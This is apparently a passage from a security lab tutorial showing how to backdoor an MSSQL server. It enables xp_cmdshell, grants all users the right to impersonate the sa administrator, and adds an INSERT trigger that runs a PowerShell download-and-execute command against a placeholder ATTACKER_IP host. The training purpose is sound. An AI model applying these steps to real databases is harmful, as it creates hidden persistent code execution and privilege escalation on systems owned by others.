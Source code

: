 
There are several ways to plant backdoors in MSSQL Server installations. For now, we will look at one of them that abuses triggers. Simply put, **triggers** in MSSQL allow you to bind actions to be performed when specific events occur in the database. Those events can range from a user logging in up to data being inserted, updated or deleted from a given table. For this task, we will create a trigger for any INSERT into the `HRDB` database.

Before creating the trigger, we must first reconfigure a few things on the database. First, we need to enable the `xp_cmdshell` stored procedure. `xp_cmdshell` is a stored procedure that is provided by default in any MSSQL installation and allows you to run commands directly in the system's console but comes disabled by default.

To enable it, let's open `Microsoft SQL Server Management Studio 18`, available from the start menu. When asked for authentication, just use **Windows Authentication** (the default value), and you will be logged on with the credentials of your current Windows User. By default, the local Administrator account will have access to all DBs.

Once logged in, click on the **New Query** button to open the query editor:

![New SQL query](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/eb3aaca1ed1da7d1e08f0c3069a5633a.png)

Run the following SQL sentences to enable the "Advanced Options" in the MSSQL configuration, and proceed to enable `xp_cmdshell`.

```sql
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

After this, we must ensure that any website accessing the database can run `xp_cmdshell`. By default, only database users with the `sysadmin` role will be able to do so. Since it is expected that web applications use a restricted database user, we can grant privileges to all users to impersonate the `sa` user, which is the default database administrator:

```sql
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

After all of this, we finally configure a trigger. We start by changing to the `HRDB` database:

```sql
USE HRDB
```

Our trigger will leverage `xp_cmdshell` to execute Powershell to download and run a `.ps1` file from a web server controlled by the attacker. The trigger will be configured to execute whenever an `INSERT` is made into the `Employees` table of the `HRDB` database:

```sql
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```
